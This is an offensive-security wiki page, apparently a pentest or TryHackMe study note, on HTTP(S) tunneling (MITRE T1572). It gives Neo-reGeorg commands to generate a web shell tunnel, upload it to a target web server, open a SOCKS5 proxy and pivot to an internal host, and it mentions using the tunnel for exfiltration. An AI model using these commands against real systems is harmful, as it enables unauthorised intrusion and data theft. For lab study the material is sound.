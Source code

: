 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572
---
```


# HTTP(s) Tunneling

## Theory

Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel. We can pivoting throught this.

{% hint style="danger" %}
We can also use HTTP(S) Tunneling as a good [exfiltration](../exfiltration/) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:

```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host then on a webserver. On the attacking machine we can do:

```bash
#Establish sock5 proxy
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php

#We can now use it as sock5 proxy 
v4resk@kali$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
